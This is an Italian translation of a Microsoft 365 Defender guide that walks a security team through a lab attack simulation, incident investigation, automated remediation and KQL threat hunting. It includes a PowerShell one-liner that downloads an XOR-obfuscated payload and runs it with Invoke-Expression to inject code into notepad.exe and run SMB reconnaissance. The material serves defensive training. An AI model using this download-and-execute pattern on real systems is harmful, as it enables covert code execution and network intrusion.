

# <a name="run-your-microsoft-365-defender-attack-simulations"></a>Eseguire le simulazioni di attacco di Microsoft 365 Defender

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]


|[](mtp-pilot-plan.md)<br/>[Pianificazione](mtp-pilot-plan.md)|[](prepare-mtpeval.md)<br/>[Preparazione](prepare-mtpeval.md)|<br/>Simula attacco|[](mtp-pilot-close.md)<br/>[Chiudi e riepiloga](mtp-pilot-close.md)|
|--|--|--|--|
|||*Sei qui!*||

Si è attualmente in fase di simulazione degli attacchi.

Dopo aver preparato l'ambiente pilota, è il momento di testare la gestione degli incidenti di Microsoft 365 Defender e le funzionalità di analisi e correzione automatizzate. Ti aieremo a simulare un attacco sofisticato che sfrutta tecniche avanzate per nasconderti dal rilevamento. L'attacco enumera le sessioni SMB (Server Message Block) aperte nei controller di dominio e recupera gli indirizzi IP recenti dei dispositivi degli utenti. Questa categoria di attacchi in genere non include i file rilasciati nel dispositivo della vittima, ma si verificano esclusivamente in memoria. Usano strumenti di amministrazione e di sistema esistenti e inserisce il codice nei processi di sistema per nasconderne l'esecuzione. Tale comportamento consente loro di eludere il rilevamento e di persistere nel dispositivo.

In questa simulazione, lo scenario di esempio inizia con uno script di PowerShell. Un utente potrebbe essere in inganno nell'esecuzione di uno script. Oppure lo script potrebbe essere eseguito da una connessione remota a un altro computer da un dispositivo precedentemente infetto, ovvero l'utente malintenzionato che tenta di spostarsi lateralmente nella rete. Il rilevamento di questi script può essere difficile perché gli amministratori spesso eseguono spesso script in remoto per eseguire varie attività amministrative.


Durante la simulazione, l'attacco inserisce shellcode in un processo apparentemente innocenza. Lo scenario richiede l'utilizzo di notepad.exe. Questo processo è stato scelto per la simulazione, ma è probabile che gli utenti malintenzionati si dirimentino di un processo di sistema di lunga durata, ad esempio svchost.exe. Il shellcode quindi contatta il server di comando e controllo (C2) dell'utente malintenzionato per ricevere istruzioni su come procedere. Lo script tenta di eseguire query di ricognizione sul controller di dominio (DC). La ricognizione consente a un utente malintenzionato di ottenere informazioni sulle informazioni di accesso degli utenti recenti. Una volta che gli utenti malintenzionati hanno queste informazioni, possono spostarsi lateralmente nella rete per accedere a un account sensibile specifico

> [!IMPORTANT]
> Per ottenere risultati ottimali, seguire il più possibile le istruzioni di simulazione degli attacchi.

## <a name="simulation-environment-requirements"></a>Requisiti dell'ambiente di simulazione

Poiché l'ambiente pilota è già stato configurato durante la fase di preparazione, verificare di disporre di due dispositivi per questo scenario: un dispositivo di test e un controller di dominio.

1. Verificare che il tenant [abbia abilitato Microsoft 365 Defender.](https://docs.microsoft.com/microsoft-365/security/mtp/mtp-enable#starting-the-service)

2. Verificare la configurazione del controller di dominio di test:

   - Il dispositivo viene eseguito con Windows Server 2008 R2 o versione successiva.
   - Il controller di dominio di test [per Microsoft Defender per l'identità](https://docs.microsoft.com/azure/security-center/security-center-wdatp) e abilitare la gestione [remota.](https://docs.microsoft.com/windows-server/administration/server-manager/configure-remote-management-in-server-manager)
   - Verificare che [l'integrazione di Microsoft Defender for Identity e Microsoft Cloud App Security](https://docs.microsoft.com/cloud-app-security/mdi-integration) sia stata abilitata.
   - Nel dominio viene creato un utente di prova, non sono necessarie autorizzazioni di amministratore.

3. Verificare la configurazione del dispositivo di test:

   1. Il dispositivo viene eseguito con Windows 10 versione 1903 o successiva.

   1. Il dispositivo di test viene aggiunto al dominio di test.

   1. [Attivare Windows Defender Antivirus.](https://docs.microsoft.com/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features) In caso di problemi durante l'abilitazione Windows Defender Antivirus, vedere questo [argomento per la risoluzione dei problemi.](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy)

   1. Verificare che il dispositivo di test sia [stato onboarded in Microsoft Defender for Endpoint)](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).

Se usi un tenant esistente e implementi i gruppi di dispositivi, crea un gruppo di dispositivi dedicato per il dispositivo di test ed eserciti il push al livello superiore nell'esperienza utente di configurazione.

## <a name="run-the-attack-scenario-simulation"></a>Eseguire la simulazione dello scenario di attacco

Per eseguire la simulazione dello scenario di attacco:

1. Accedere al dispositivo di test con l'account utente di test.

2. Aprire una Windows PowerShell nel dispositivo di test.

3. Copiare lo script di simulazione seguente:

   ```powershell
   [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
   = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
   -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
   $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
   $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
   ```

   > [!NOTE]
   > Se si apre il documento in un Web browser, è possibile che si verifichino problemi durante la copia del testo completo senza perdere determinati caratteri o introdurre interruzioni di riga aggiuntive. Scarica questo documento e aprilo in Adobe Reader.

4. Al prompt, incollare ed eseguire lo script copiato.

> [!NOTE]
> Se si esegue PowerShell con RDP (Remote Desktop Protocol), utilizzare il comando Digita testo Appunti nel client RDP perché il tasto di scelta rapida **CTRL-V** o il metodo di incolla con il pulsante destro del mouse potrebbe non funzionare. Anche le versioni recenti di PowerShell a volte non accettano questo metodo, potrebbe essere necessario prima copiarlo in Blocco note in memoria, copiarlo nella macchina virtuale e quindi incollarlo in PowerShell.

Pochi secondi dopo, la <i>notepad.exe</i> si aprirà. Un codice di attacco simulato verrà inserito in notepad.exe. Tenere aperta l'istanza del Blocco note generata automaticamente per sperimentare l'intero scenario.

Il codice di attacco simulato tenterà di comunicare con un indirizzo IP esterno (simulando il server C2) e quindi tenterà la ricognizione con il controller di dominio tramite SMB.

Al termine dello script verrà visualizzato un messaggio nella console di PowerShell.

```console
ran NetSessionEnum against [DC Name] with return code result 0
```

Per vedere la funzionalità Disasserzione e risposta automatizzata in azione, mantenere aperto notepad.exe processo. You'll see Automated Incident and Response stop the Notepad process.

## <a name="investigate-an-incident"></a>Analizzare un incidente

> [!NOTE]
> Prima di illustrare questa simulazione, guardare il video seguente per vedere in che modo la gestione degli eventi imprevisti consente di riunire gli avvisi correlati come parte del processo di indagine, dove è possibile trovarlo nel portale e come può essere utile nelle operazioni di sicurezza:

> [!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bzwz?]

Passando al punto di vista dell'analista SOC, è ora possibile iniziare ad analizzare l'attacco nel portale del Centro sicurezza Microsoft 365.

1. Aprire la coda degli eventi imprevisti del portale del Centro sicurezza [Microsoft 365](https://security.microsoft.com/incidents) da qualsiasi dispositivo.

2. Passare a **Eventi imprevisti** dal menu.

    

3. Il nuovo evento imprevisto per l'attacco simulato verrà visualizzato nella coda degli eventi imprevisti.

    

### <a name="investigate-the-attack-as-a-single-incident"></a>Analizzare l'attacco come un singolo evento imprevisto

Microsoft 365 Defender correla l'analisi e aggrega tutti gli avvisi e le indagini correlati da prodotti diversi in un'unica entità evento imprevisto. In questo modo, Microsoft 365 Defender mostra una storia di attacco più ampia, consentendo all'analista SOC di comprendere e rispondere a minacce complesse.

Gli avvisi generati durante questa simulazione sono associati alla stessa minaccia e, di conseguenza, vengono aggregati automaticamente come singolo evento imprevisto.

Per visualizzare l'evento imprevisto:

1. Passare alla **coda Eventi imprevisti.**

   

2. Selezionare l'elemento più recente facendo clic sul cerchio a sinistra del nome dell'evento imprevisto. Un pannello laterale visualizza informazioni aggiuntive sull'incidente, inclusi tutti gli avvisi correlati. Ogni evento imprevisto ha un nome univoco che lo descrive in base agli attributi degli avvisi inclusi.

   

   Gli avvisi visualizzati nel dashboard possono essere filtrati in base alle risorse del servizio: Microsoft Defender for Identity, Microsoft Cloud App Security, Microsoft Defender for Endpoint, Microsoft 365 Defender e Microsoft Defender per Office 365.

3. Selezionare **Apri la pagina dell'evento** imprevisto per ottenere ulteriori informazioni sull'incidente.

   Nella pagina **Evento** imprevisto è possibile visualizzare tutti gli avvisi e le informazioni relative all'incidente. Le informazioni includono le entità e gli asset coinvolti nell'avviso, l'origine di rilevamento degli avvisi (Microsoft Defender per l'identità, EDR) e il motivo per cui sono stati collegati tra loro. Esaminando l'elenco degli avvisi per gli eventi imprevisti viene mostrata la progressione dell'attacco. Da questa visualizzazione è possibile visualizzare e analizzare i singoli avvisi.

   Puoi anche fare clic **su Gestisci** evento imprevisto dal menu a destra per contrassegnare l'evento, assegnarlo a te stesso e aggiungere commenti.

   

   

### <a name="review-generated-alerts"></a>Esaminare gli avvisi generati

Esamini alcuni degli avvisi generati durante l'attacco simulato.

> [!NOTE]
> Verranno visualizzati solo alcuni avvisi generati durante l'attacco simulato. A seconda della versione di Windows e dei prodotti Microsoft 365 Defender in esecuzione nel dispositivo di test, è possibile che vengano visualizzati più avvisi in un ordine leggermente diverso.


#### <a name="alert-suspicious-process-injection-observed-source-microsoft-defender-for-endpoint-edr"></a>Avviso: rilevato inserimento di processi sospetti (Origine: Microsoft Defender per Endpoint EDR)

Gli utenti malintenzionati avanzati usano metodi sofisticati e sofisticati per mantenere la memoria e nascondersi dagli strumenti di rilevamento. Una tecnica comune consiste nell'operare da un processo di sistema attendibile anziché da un eseguibile dannoso, rendendo difficile per gli strumenti di rilevamento e le operazioni di sicurezza individuare il codice dannoso.

Per consentire agli analisti SOC di intercettare questi attacchi avanzati, i sensori di memoria profonda in Microsoft Defender for Endpoint forniscono al servizio cloud una visibilità senza precedenti in un'ampia gamma di tecniche di inserimento del codice multi-processo. La figura seguente mostra come Defender per Endpoint ha rilevato e avvisato il tentativo di inserire codice per <i>notepad.exe</i>.


#### <a name="alert-unexpected-behavior-observed-by-a-process-run-with-no-command-line-arguments-source-microsoft-defender-for-endpoint-edr"></a>Avviso: comportamento imprevisto rilevato da un processo eseguito senza argomenti della riga di comando (Source: Microsoft Defender for Endpoint EDR)

I rilevamenti di Microsoft Defender per endpoint spesso sono mirati all'attributo più comune di una tecnica di attacco. Questo metodo garantisce la durata e alza l'astio per consentire agli utenti malintenzionati di passare a tattiche più nuove.

Si utilizzano algoritmi di apprendimento su larga scala per stabilire il normale comportamento dei processi comuni all'interno di un'organizzazione e in tutto il mondo e per controllare quando questi processi mostrano comportamenti anomali. Questi comportamenti anomali spesso indicano che è stato introdotto codice estraneo ed è in esecuzione in un processo altrimenti attendibile.

Per questo scenario, il processo <i>notepad.exe</i> presenta un comportamento anomalo, che implica la comunicazione con una posizione esterna. Questo risultato è indipendente dal metodo specifico utilizzato per introdurre ed eseguire il codice dannoso.

> [!NOTE]
> Poiché questo avviso si basa su modelli di apprendimento automatico che richiedono un'ulteriore elaborazione back-end, potrebbe essere necessario del tempo prima di visualizzare questo avviso nel portale.

Nota che i dettagli dell'avviso includono l'indirizzo IP esterno, un indicatore che puoi usare come pivot per espandere l'indagine.

Selezionare l'indirizzo IP nell'albero del processo di avviso per visualizzare la pagina dei dettagli dell'indirizzo IP.


Nella figura seguente viene visualizzata la pagina dei dettagli dell'indirizzo IP selezionato (facendo clic sull'indirizzo IP nell'albero del processo di avviso).


#### <a name="alert-user-and-ip-address-reconnaissance-smb-source-microsoft-defender-for-identity"></a>Avviso: ricognizione degli indirizzi IP e degli utenti (SMB) (origine: Microsoft Defender per l'identità)

L'enumerazione tramite il protocollo SMB (Server Message Block) consente agli utenti malintenzionati di ottenere informazioni di accesso utente recenti che consentono loro di spostarsi lateralmente attraverso la rete per accedere a un account sensibile specifico.

In questo rilevamento viene attivato un avviso quando l'enumerazione della sessione SMB viene eseguita su un controller di dominio.


### <a name="review-the-device-timeline-microsoft-defender-for-endpoint"></a>Esaminare la sequenza temporale del dispositivo [Microsoft Defender per Endpoint]

Dopo aver esaminato i vari avvisi in questo incidente, tornare alla pagina dell'incidente esaminata in precedenza. Seleziona la **scheda Dispositivi** nella pagina dell'evento imprevisto per esaminare i dispositivi coinvolti in questo incidente, come riportato da Microsoft Defender per Endpoint e Microsoft Defender per l'identità.

Seleziona il nome del dispositivo in cui è stato condotto l'attacco per aprire la pagina dell'entità per quel dispositivo specifico. In tale pagina è possibile visualizzare gli avvisi attivati e gli eventi correlati.

Seleziona la **scheda Sequenza** temporale per aprire la sequenza temporale del dispositivo e visualizzare tutti gli eventi e i comportamenti osservati nel dispositivo in ordine cronologico, intersperati con gli avvisi generati.


L'espansione di alcuni dei comportamenti più interessanti offre dettagli utili, ad esempio gli alberi dei processi.

Ad esempio, scorrere verso il basso fino a trovare l'evento di avviso **Inserimento di processo** sospetto osservato. Seleziona il **powershell.exe inserito per** notepad.exe di processo sottostante, per visualizzare l'albero completo del  processo per questo comportamento nel grafico entità evento nel riquadro laterale. Utilizzare la barra di ricerca per filtrare, se necessario.


### <a name="review-the-user-information-microsoft-cloud-app-security"></a>Esaminare le informazioni utente [Microsoft Cloud App Security]

Nella pagina dell'incidente, selezionare la **scheda Utenti** per visualizzare l'elenco degli utenti coinvolti nell'attacco. La tabella contiene informazioni aggiuntive su ogni utente, incluso il punteggio Priorità indagine **di ogni** utente.

Selezionare il nome utente per aprire la pagina del profilo dell'utente in cui è possibile eseguire ulteriori indagini. [Altre informazioni sull'analisi degli utenti rischiosi.](https://docs.microsoft.com/cloud-app-security/tutorial-ueba#identify)


## <a name="automated-investigation-and-remediation"></a>Indagine e correzione automatizzate

> [!NOTE]
>Prima di illustrare questa simulazione, guardare il video seguente per acquisire familiarità con la riparazione automatica, dove trovarla nel portale e come può essere utile nelle operazioni di sicurezza:

> [!VIDEO https://www.microsoft.com/en-us/videoplayer/embed/RE4BzwB]

Tornare all'evento imprevisto nel portale del Centro sicurezza Microsoft 365. La **scheda Indagini** nella pagina Evento imprevisto mostra le indagini automatizzate attivate da Microsoft Defender for Identity e Microsoft Defender for Endpoint.  Lo screenshot seguente mostra solo l'indagine automatizzata attivata da Defender per Endpoint. Per impostazione predefinita, Defender per Endpoint consente di correggere automaticamente gli elementi della struttura del sito trovati nella coda, il che richiede una correzione.


Selezionare l'avviso che ha attivato un'indagine per aprire la **pagina Dettagli indagine.** Verranno visualizzati i dettagli seguenti:

- Avvisi che hanno attivato l'indagine automatizzata.
- Utenti e dispositivi in impatto. Se vengono trovati indicatori su dispositivi aggiuntivi, verranno elencati anche questi dispositivi aggiuntivi.
- Elenco di prove. Entità trovate e analizzate, ad esempio file, processi, servizi, driver e indirizzi di rete. Queste entità vengono analizzate per le possibili relazioni con l'avviso e valutate come benigne o dannose.
- Minacce rilevate. Minacce note rilevate durante l'indagine.

> [!NOTE]
> A seconda della tempistica, l'indagine automatizzata potrebbe essere ancora in esecuzione. Attendere alcuni minuti per il completamento del processo prima di raccogliere e analizzare la prova ed esaminare i risultati. Aggiorna la **pagina Dei dettagli dell'indagine** per ottenere i risultati più recenti.


Durante l'indagine automatizzata, Microsoft Defender per Endpoint ha identificato il processo di notepad.exe, che è stato inserito come uno degli artefatti che richiedono la correzione. Defender for Endpoint interrompe automaticamente l'inserimento di processi sospetti come parte della correzione automatica.

È possibile visualizzare <i>notepad.exe</i> dall'elenco dei processi in esecuzione nel dispositivo di test.

## <a name="resolve-the-incident"></a>Risolvere l'evento imprevisto

Una volta completata l'indagine e confermata la correzione, chiudere l'evento imprevisto.

Selezionare **Gestisci evento imprevisto.** Impostare lo stato su **Risolvi evento imprevisto** e selezionare la classificazione pertinente.

Quando l'incidente viene risolto, chiude tutti gli avvisi associati nel Centro sicurezza Microsoft 365 e nei portali correlati.


Questo include la simulazione degli attacchi per la gestione degli eventi imprevisti e gli scenari di analisi e correzione automatizzati. La simulazione successiva consente di eseguire la ricerca proattiva delle minacce per i file potenzialmente dannosi.

## <a name="advanced-hunting-scenario"></a>Scenario di ricerca avanzata

> [!NOTE]
> Prima di illustrare la simulazione, guardare il video seguente per comprendere i concetti di ricerca avanzata, vedere dove è possibile trovarlo nel portale e sapere come può essere utile nelle operazioni di sicurezza:

> [!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bp7O]

### <a name="hunting-environment-requirements"></a>Requisiti dell'ambiente di ricerca

Per questo scenario è necessaria una singola cassetta postale interna e un dispositivo. Sarà inoltre necessario un account di posta elettronica esterno per inviare il messaggio di prova.

1. Verificare che il tenant abbia [abilitato Microsoft 365 Defender.](https://docs.microsoft.com/microsoft-365/security/mtp/mtp-enable#starting-the-service)
2. Identificare una cassetta postale di destinazione da utilizzare per la ricezione della posta elettronica.
    a. Questa cassetta postale deve essere monitorata da Microsoft Defender per Office 365 b. Il dispositivo del requisito 3 deve accedere a questa cassetta postale
3. Configurare un dispositivo di test: a. Assicurati di usare Windows 10 versione 1903 o successiva.
    b. Aggiungere il dispositivo di test al dominio di test.
    c. [Attivare Windows Defender Antivirus.](https://docs.microsoft.com/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features) In caso di problemi durante l'abilitazione Windows Defender Antivirus, vedere [questo argomento per la risoluzione dei problemi.](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy)
    d. [Eseguire l'onboard in Microsoft Defender per Endpoint.](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints)

### <a name="run-the-simulation"></a>Eseguire la simulazione

1. Da un account di posta elettronica esterno, inviare un messaggio di posta elettronica alla cassetta postale identificata nel passaggio 2 della sezione relativa ai requisiti dell'ambiente di testing. Includere un allegato che sarà consentito tramite i criteri di filtro della posta elettronica esistenti. Questo file non deve essere dannoso o eseguibile. I tipi di file suggeriti <i>sono pdf,</i> <i>exe</i> (se consentito) o documenti di Office, ad esempio un file di Word.
2. Aprire il messaggio di posta elettronica inviato dal dispositivo configurato come definito nel passaggio 3 della sezione relativa ai requisiti dell'ambiente di testing. Aprire l'allegato o salvare il file nel dispositivo.

#### <a name="go-hunting"></a>Andare a ricerca

1. Aprire il security.microsoft.com portale.

2. Passare a **Ricerca > Ricerca avanzata.**

   

3. Creare una query che inizia raccogliendo eventi di posta elettronica.

   1. Nel riquadro query selezionare Nuovo.

   1. Fare doppio clic sulla tabella EmailEvents dello schema.

      ```console
      EmailEvents
      ```

   1. Modificare l'intervallo di tempo per le ultime 24 ore. Supponendo che il messaggio di posta elettronica inviato durante l'esecuzione della simulazione precedente sia stato nelle ultime 24 ore, in caso contrario modificare l'intervallo di tempo.

      

   1. Eseguire la query. È possibile ottenere molti risultati a seconda dell'ambiente per il progetto pilota.

      > [!NOTE]
      > Vedere il passaggio successivo per le opzioni di filtro per limitare la restituzione di dati.

      

        > [!NOTE]
        > Ricerca avanzata visualizza i risultati delle query come dati tabulari. È inoltre possibile scegliere di visualizzare i dati in altri tipi di formato, ad esempio grafici.

   1. Esaminare i risultati e vedere se è possibile identificare il messaggio di posta elettronica aperto. La visualizzazione del messaggio nella ricerca avanzata potrebbe richiedere fino a 2 ore. Se l'ambiente di posta elettronica è di grandi dimensioni e sono presenti molti risultati, è consigliabile utilizzare l'opzione Mostra filtri **per** trovare il messaggio.

      Nell'esempio, il messaggio di posta elettronica è stato inviato da un account Yahoo. Fare clic sull'icona accanto yahoo.com nella sezione SenderFromDomain e quindi fare clic su Applica per aggiungere il **+** dominio selezionato alla query.   Utilizzare il dominio o l'account di posta elettronica utilizzato per inviare il messaggio di prova nel passaggio 1 di Eseguire la simulazione per filtrare i risultati. Eseguire di nuovo la query per ottenere un set di risultati più piccolo per verificare che il messaggio sia visualizzato dalla simulazione.

      

      ```console
      EmailEvents
      | where SenderMailFromDomain == "yahoo.com"
      ```

   1. Fare clic nelle righe risultanti dalla query in modo da poter esaminare il record.

      

4. Dopo aver verificato che è possibile visualizzare il messaggio di posta elettronica, aggiungere un filtro per gli allegati. Concentrarsi su tutti i messaggi di posta elettronica con allegati nell'ambiente. Per questo scenario, concentrarsi sui messaggi di posta elettronica in ingresso, non quelli inviati dall'ambiente. Rimuovere i filtri aggiunti per individuare il messaggio e aggiungere "| dove **AttachmentCount > 0** e **EmailDirection**  ==  **"Inbound""**

   La query seguente mostrerà il risultato con un elenco più breve rispetto alla query iniziale per tutti gli eventi di posta elettronica:

   ```console
   EmailEvents
   | where AttachmentCount > 0 and EmailDirection == "Inbound"
   ```

5. Successivamente, includere le informazioni sull'allegato (ad esempio: nome file, hash) nel set di risultati. A tale scopo, unire la **tabella EmailAttachmentInfo.** I campi comuni da utilizzare per l'aggiunta, in questo caso **sono NetworkMessageId** e **RecipientObjectId.**

   La query seguente include anche una riga aggiuntiva "| **project-rename EmailTimestamp=Timestamp**" che consente di identificare quale timestamp era correlato al messaggio di posta elettronica rispetto ai timestamp correlati alle azioni dei file che verranno aggiunti nel passaggio successivo.

   ```console
   EmailEvents
   | where AttachmentCount > 0 and EmailDirection == "Inbound"
   | project-rename EmailTimestamp=Timestamp
   | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
   ```

6. Usa quindi il **valore SHA256** della tabella **EmailAttachmentInfo** per trovare **DeviceFileEvents** (azioni file eseguite nell'endpoint) per l'hash. Il campo comune qui sarà l'hash SHA256 per l'allegato.

   La tabella risultante ora include i dettagli dell'endpoint (Microsoft Defender per endpoint), ad esempio il nome del dispositivo, l'azione eseguita (in questo caso, filtrata per includere solo gli eventi FileCreated) e la posizione in cui è stato archiviato il file. Verrà incluso anche il nome dell'account associato al processo.

   ```console
   EmailEvents
   | where AttachmentCount > 0 and EmailDirection == "Inbound"
   | project-rename EmailTimestamp=Timestamp
   | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
   | join DeviceFileEvents on SHA256
   | where ActionType == "FileCreated"
   ```

   A questo punto è stata creata una query che identificherà tutti i messaggi di posta elettronica in ingresso in cui l'utente ha aperto o salvato l'allegato. È inoltre possibile perfezionare questa query per filtrare i domini del mittente, le dimensioni dei file, i tipi di file e così via specifici.

7. Le funzioni sono un tipo speciale di join, che ti consente di estrarre più dati di ti su un file come la diffusione, le informazioni sul firmatario e sull'autorità emittente e così via. Per ottenere altri dettagli sul file, utilizzare l'arricchimento della funzione **FileProfile():**

    ```console
    EmailEvents
    | where AttachmentCount > 0 and EmailDirection == "Inbound"
    | project-rename EmailTimestamp=Timestamp
    | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
    | join DeviceFileEvents on SHA256
    | where ActionType == "FileCreated"
    | distinct SHA1
    | invoke FileProfile()
    ```

#### <a name="create-a-detection"></a>Creare un rilevamento

Dopo aver creato una query che identifica le  informazioni di cui si desidera ricevere un avviso se si verificano in futuro, è possibile creare un rilevamento personalizzato dalla query.

I rilevamenti personalizzati eseguiranno la query in base alla frequenza impostata e i risultati delle query creeranno avvisi di sicurezza in base alle risorse influenzate selezionate. Tali avvisi verranno correlati agli eventi imprevisti e possono essere valutati come qualsiasi altro avviso di sicurezza generato da uno dei prodotti.

1. Nella pagina della query rimuovere le righe 7 e 8 aggiunte nel passaggio 7 delle istruzioni per la ricerca e fare clic **su Crea regola di rilevamento.**

   

   > [!NOTE]
   > Se si fa **clic su Crea regola di** rilevamento e si verificano errori di sintassi nella query, la regola di rilevamento non verrà salvata. Verificare che la query non presenti errori.

2. Compilare i campi obbligatori con le informazioni che consentiranno al team di sicurezza di comprendere l'avviso, il motivo per cui è stato generato e le azioni previste.

   

   Assicurarsi di compilare i campi con chiarezza per fornire all'utente successivo una decisione informata su questo avviso della regola di rilevamento

3. Selezionare le entità che hanno effetto su questo avviso. In questo caso, selezionare **Dispositivo** e **cassetta postale.**

   

4. Determinare quali azioni devono essere eseguite se l'avviso viene attivato. In questo caso, eseguire un'analisi antivirus, anche se è possibile eseguire altre azioni.

   

5. Selezionare l'ambito per la regola di avviso. Poiché questa query coinvolge i dispositivi, i gruppi di dispositivi sono rilevanti in questo rilevamento personalizzato in base al contesto di Microsoft Defender per endpoint. Quando si crea un rilevamento personalizzato che non include i dispositivi come entità influenzate, l'ambito non viene applicato.

   

   Per questa distribuzione pilota, è consigliabile limitare questa regola a un sottoinsieme di dispositivi di test nell'ambiente di produzione.

6. Selezionare **Crea**. Seleziona quindi **Regole di rilevamento personalizzate** nel pannello di spostamento.

   

   

   Da questa pagina, è possibile selezionare la regola di rilevamento, che aprirà una pagina dei dettagli.

   

### <a name="additional-advanced-hunting-walk-through-exercises"></a>Ulteriori esercitazioni pratiche per la ricerca avanzata

Per ulteriori informazioni sulla ricerca avanzata, le webcast seguenti illustrano le funzionalità di ricerca avanzata all'interno di Microsoft 365 Defender per creare query tra pilastri, eseguire pivot in entità e creare rilevamenti e azioni di correzione personalizzate.

> [!NOTE]
> Prepararsi con il proprio account GitHub per eseguire le query di ricerca nell'ambiente del laboratorio di testing pilota.

|Titolo|Descrizione|Scaricare MP4|Guardare su YouTube|File CSL da utilizzare|
|---|---|---|---|---|
|Episodio 1: nozioni fondamentali su KQL|Verranno trattate le nozioni di base delle funzionalità di ricerca avanzate in Microsoft 365 Defender. Informazioni sui dati di ricerca avanzati disponibili e sulla sintassi ESQL di base e sugli operatori.|[MP4](https://aka.ms/MTP15JUL20_MP4)|[YouTube](https://youtu.be/0D9TkGjeJwM)|[Episodio 1: file CSL in Git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%201%20-%20KQL%20Fundamentals.csl)|
|Episodio 2: partecipazioni|We'll continue learning about data in advanced hunting and how to join tables together. Informazioni sui join interni, esterni, univoci e semi join e sulle sfumature dell'innerunique join Kusto predefinito.|[MP4](https://aka.ms/MTP22JUL20_MP4)|[YouTube](https://youtu.be/LMrO6K5TWOU)|[Episodio 2: file CSL in Git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%202%20-%20Joins.csl)|
|Episodio 3: riepilogo, pivot e visualizzazione dei dati|Ora che siamo in grado di filtrare, manipolare e unire i dati, è il momento di iniziare a riepilogare, quantificare, eseguire pivot e visualizzare. In questo episodio verrà descritto l'operatore di riepilogo e alcuni dei calcoli che è possibile eseguire durante l'immersione in tabelle aggiuntive nello schema di ricerca avanzata. I set di dati vengono trasformati in grafici che consentono di migliorare l'analisi.|[MP4](https://aka.ms/MTP29JUL20_MP4)|[YouTube](https://youtu.be/UKnk9U1NH6Y)|[Episodio 3: file CSL in Git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%203%20-%20Summarizing%2C%20Pivoting%2C%20and%20Joining.csl)|
|Episodio 4: diamo una risposta. Applicazione di KQL al rilevamento degli eventi imprevisti|È il momento di tenere traccia di alcune attività degli utenti malintenzionati. In questo episodio useremo la nostra migliore comprensione di KQL e la ricerca avanzata in Microsoft 365 Defender per tenere traccia di un attacco. Informazioni su alcuni dei suggerimenti e dei trucchi usati sul campo per tenere traccia delle attività degli utenti malintenzionati, inclusi i criteri rubrica della cybersecurity e su come applicarli alla risposta agli incidenti.|[MP4](https://aka.ms/MTP5AUG20_MP4)|[YouTube](https://youtu.be/2EUxOc_LNd8)|[Episodio 4: file CSL in Git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%204%20-%20Lets%20Hunt.csl)|
|

## <a name="next-step"></a>Passaggio successivo

| <br>[Fase di chiusura e riepilogo](mtp-pilot-close.md)|Analizzare il risultato pilota di Microsoft 365 Defender, presentarlo alle parti interessate e fare il passaggio successivo.
|:-----|:-----|
